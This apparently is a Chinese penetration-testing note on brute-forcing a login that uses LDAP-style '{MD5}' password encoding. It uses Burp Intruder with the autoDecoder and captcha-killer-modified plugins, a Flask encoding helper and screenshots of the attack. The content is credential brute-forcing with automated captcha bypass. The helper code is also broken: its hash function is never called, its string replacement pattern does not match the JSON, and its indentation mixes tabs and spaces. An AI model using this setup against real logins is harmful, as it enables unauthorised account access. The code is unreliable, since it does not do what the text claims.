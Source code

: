# ldap的md5加密配合`autoDecoder`插件、`captcha-killer-modified`插件
#autoDecoder例

需要传入的数据包为:
```bash
{"username":"admin","password":"{MD5}ISMvKXpXpadDiUoOSoAfww==","code":"YJIV"}
```

`intruder`数据包设置如下：
```bash
{"username":"admin","password":"§1§","code":"§JOEJ§"}
```

`intruder`设置如下：
![800](photo/Pasted%20image%2020220414142603.png)
![800](photo/Pasted%20image%2020220414142107.png)
![800](photo/Pasted%20image%2020220414142541.png)

由于我们只针对`intruder`里的账号密码进行爆破，所以解密接口我们用不到，直接捕捉到数据包直接返回即可：
```python
@app.route('/decode',methods=["POST"]) # 不解密  
def decrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	return param  
```
加密服务端代码如下：
```python
# -*- coding:utf-8 -*-  
# author:f0ngf0ng  
  
# ldap的md5加密爆破  
  
from flask import Flask,Response,request  
from pyDes import *  
import base64,hashlib,json  
  
def hash_md5(data):  
    md = hashlib.md5()  
    md.update(str(data))  
    a = md.digest()  
    b = base64.b64encode(a)  
    return b  
  
app = Flask(__name__)  
  
@app.route('/encode',methods=["POST"])  
def encrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	data = json.loads(param)  
    print(data)  
    encry_param = param.replace( "password': '"+ data['password'],"password': '"+"{MD5}" + data['password']) # 密文替换明文，且添加{MD5}关键字  
    return encry_param  
  
@app.route('/decode',methods=["POST"]) # 不解密  
def decrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	return param  
  
if __name__ == '__main__':  
    app.debug = True # 设置调试模式，生产模式的时候要关掉debug  
	app.run(host="0.0.0.0",port="8888")
```
运行如下
```bash
python flask.py
```
`autoDecoder`设置如下：
![800](photo/Pasted%20image%2020220414141838.png)

`captcha-killer-modified`插件页面如下：
![800](photo/Pasted%20image%2020220414143000.png)
爆破如下：
![800](photo/Pasted%20image%2020220414143037.png)